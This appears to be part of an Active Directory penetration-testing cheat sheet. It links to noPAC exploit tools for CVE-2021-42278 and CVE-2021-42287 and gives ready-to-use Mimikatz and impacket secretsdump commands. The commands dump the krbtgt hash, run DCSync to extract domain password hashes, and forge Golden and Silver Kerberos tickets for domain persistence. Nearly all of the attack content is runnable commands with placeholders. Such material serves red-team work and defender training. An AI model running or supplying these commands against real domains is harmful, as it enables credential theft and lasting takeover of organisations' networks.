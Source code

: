 ### No PAC

- [sAMAccountname Spoofing](https://www.thehacker.recipes/ad/movement/kerberos/samaccountname-spoofing) Exploitation of CVE-2021-42278 and CVE-2021-42287
- [Weaponisation of CVE-2021-42287/CVE-2021-42278](https://exploit.ph/cve-2021-42287-cve-2021-42278-weaponisation.html) Exploitation of CVE-2021-42278 and CVE-2021-42287
- [noPAC](https://github.com/cube0x0/noPac) C# tool to exploit CVE-2021-42278 and CVE-2021-42287
- [sam-the-admin](https://github.com/WazeHell/sam-the-admin) Python automated tool to exploit CVE-2021-42278 and CVE-2021-42287
- [noPac](https://github.com/Ridter/noPac) Evolution of "sam-the-admin" tool

## Domain Persistence

### Golden Ticket Attack

```powershell
#Execute mimikatz on DC as DA to grab krbtgt hash:
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -ComputerName <DC'sName>

#On any machine:
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:<DomainName> /sid:<Domain's SID> /krbtgt:
<HashOfkrbtgtAccount>   id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
```

⧉ Copied!

### DCsync Attack

```powershell
#DCsync using mimikatz (You need DA rights or DS-Replication-Get-Changes and DS-Replication-Get-Changes-All privileges):
Invoke-Mimikatz -Command '"lsadump::dcsync /user:<DomainName>\<AnyDomainUser>"'

#DCsync using secretsdump.py from impacket with NTLM authentication
secretsdump.py <Domain>/<Username>:<Password>@<DC'S IP or FQDN> -just-dc-ntlm

#DCsync using secretsdump.py from impacket with Kerberos Authentication
secretsdump.py -no-pass -k <Domain>/<Username>@<DC'S IP or FQDN> -just-dc-ntlm
```

⧉ Copied!

**Tip:**
/ptt -> inject ticket on current running session
/ticket -> save the ticket on the system for later use

### Silver Ticket Attack

```powershell
Invoke-Mimikatz -Command '"kerberos::golden /domain:<DomainName> /sid:<DomainSID> /target:<TheTargetMachine> /service:
<ServiceType> /rc4:<TheSPN's Account NTLM Hash> /user:<UserToImpersonate> /ptt"'
```
